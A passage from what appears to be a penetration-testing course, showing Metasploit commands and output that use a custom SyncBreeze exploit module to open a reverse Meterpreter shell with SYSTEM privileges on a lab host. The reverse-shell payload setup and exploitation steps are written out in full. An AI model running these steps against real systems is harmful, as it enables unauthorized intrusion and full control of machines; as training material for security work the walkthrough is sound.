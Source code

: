 > Listing 66 - Locating the custom exploit

We notice that the search for _syncbreeze_ now contains three results and that the second result is our custom exploit. Next we'll choose a payload, set up the required parameters, and perform a vulnerability check.

```
msf6> use exploit/windows/http/syncbreeze
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/syncbreeze) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/syncbreeze) > set RHOSTS 192.168.120.11
RHOSTS => 192.168.120.11
msf6 exploit(windows/http/syncbreeze) > set LHOST 192.168.118.2
LHOST => 192.168.118.2
msf6 exploit(windows/http/syncbreeze) > check
[*] 192.168.120.11:80 - The target appears to be vulnerable.

```

> Listing 67 - Setting up parameters and checking exploitability

Finally, we launch our exploit to gain a reverse shell.

```
msf6 exploit(windows/http/syncbreeze) > exploit

[*] Started reverse TCP handler on 192.168.118.2:4444 
[*] Generating exploit...
[*] Sending exploit...
[*] Sending stage (175174 bytes) to 192.168.120.11
[*] Meterpreter session 1 opened (192.168.118.2:4444 -> 192.168.120.11:49755) at 2021-01-28 10:30:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >  
```

> Listing 68 - Exploitation of SyncBreeze using custom MSF module

Excellent. It's working perfectly. We have a shell thanks to our new Metasploit exploit module.